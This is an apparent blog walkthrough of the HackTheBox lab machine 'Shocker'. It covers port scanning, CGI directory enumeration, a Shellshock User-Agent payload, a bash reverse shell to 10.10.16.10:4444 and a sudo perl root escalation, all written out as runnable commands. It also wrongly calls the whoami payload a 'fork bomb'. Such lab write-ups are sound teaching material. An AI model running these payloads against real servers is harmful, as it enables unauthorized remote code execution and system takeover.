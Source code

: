 ```yaml
---
title: Shocker
published: true
layout: post
---
```


<br />

---------------
Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/39UcPshUAz4?si=IeLq1uW47rTgFPHf" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.56 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![](/assets/Shocker/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **80/tcp**
+ **2222/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.56 -p 80,2222 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Shocker/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **80/tcp Apache httpd 2.4.18**
+ **2222/tcp OpenSSH 7.2.p2**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.56 -p 80,2222 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

![](/assets/Shocker/3.png)
<br />
<br />
<br />

The scan reports nothing interesting.

<br />

------

<br />
### Foothold

The foothold in this machine is easy if you have heard previously about the vulnerability ***ShellShock***, which is related to the directory ***/cgi-bin/*** in a web server.

<br />

During our web enumeration, we will find some directories with `gobuster`, among others a relevant directory, ***/cgi-bin/***:

```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dir_and_file_enum_80.txt -t 50 -r --add-slash
```

![](/assets/Shocker/4.png)
<br />
<br />
<br />

Knowing that this directory exists, and it usually contains **scripts**, we can enumerate this directory looking for them:

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dir_and_file_enum_80_cgi-bin.txt -x -t 50 -r --add-slash
```

![](/assets/Shocker/5.png)
<br />
<br />
<br />

We can download the script, but it doesn't contain any relevant information, so we can go for a **ShellShock vulnerability**, it is actually an easy exploit, we just have to deliver a **fork bomb** using a header, like the ***User-Agent***:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```

![](/assets/Shocker/6.png)
<br />
<br />
<br />

Great, we have RCE as the **user shelly**, so let's send us a reverse shell and grab the user flag:

```bash
rlwrap nc -nlvp 4444
```

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :; }; echo; /bin/bash -c ' /bin/bash -i >& /dev/tcp/10.10.16.10/4444 0>&1'"
```

![](/assets/Shocker/7.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation for this machine is very straightforward, we can get it by an **easy enumeration**, however, we can get distracted by user groups, who are misleading.

<br />

```bash
sudo -l
```

![](/assets/Shocker/8.png)
<br />
<br />
<br />

As we can run `perl` with `sudo` without restrictions, we can elevate our privileges easily, sanitize our shell and grab the root flag:

```bash
sudo perl -e "exec '/bin/bash;'"
script /dev/null -c bash
```

![](/assets/Shocker/9.png)
<br />
<br />
<br />
